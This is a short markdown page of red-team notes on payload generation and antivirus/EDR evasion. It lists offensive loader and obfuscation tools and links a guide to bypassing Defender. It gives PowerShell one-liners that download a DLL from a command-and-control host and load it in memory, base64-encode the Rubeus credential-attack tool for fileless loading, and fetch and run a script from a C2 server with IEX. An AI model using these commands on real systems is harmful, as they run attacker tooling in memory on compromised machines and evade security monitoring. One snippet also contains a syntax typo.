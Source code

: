 # Payload Generation & AV/EDR Evasion Tips + Devops


## Tools
* [OffensivePipeline](https://github.com/aetsu/OffensivePipeline)
* [ConfuserEx](https://github.com/mkaring/ConfuserEx)
* [PowerStrip](http://github.com/Yoda66/PowerStrip)
* [NetLoader](https://github.com/Flangvik/NetLoader)
* [SharpPack](https://github.com/mdsecactivebreach/SharpPack)

---
## Awesoem Resources:
* [Arty-hlr - How to bypass Defender in a few easy steps](https://arty-hlr.com/blog/2021/05/06/how-to-bypass-defender/)

---
## Loading via System Reflection Assembly[^1]
### Load DLL
```
$w = new-object system.net.webclient
$p = w$.Downloaddata("https://c2.domain.com/dllfile")
[system.reflection.assembly]::Load($p)
$a = new-object namespace.class
$a.method()
```

### Example: Rubeus[^2]
* Convert Exe file to Base64 via powershell
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
```
* Create a `ps1` file (i.e. *rubeus.ps1*) with the contents below but replace the `<BASE64dRubeus>` with the base64 output of the command above (`rubeus.txt`)
    * This step will save a lot of time rather than executing the base64 output directly and pasting a lot of characters to your (remote) powershell terminal.
```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("<BASE64dRubeus>"))
```
* Download via your c2
```powershell
IEX(New-Object System.Net.WebClient).DownloadString("https://<c2>:443/rubeus.ps1")
```

[^1]: [Move Aside Script Kiddies–Malware Execution in the Age of Advanced Defenses | Joff Thyer ](https://www.youtube.com/watch?v=wTmQ5FaRmf4)
[^2]: [Github - Ghostpack - Rubeus](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
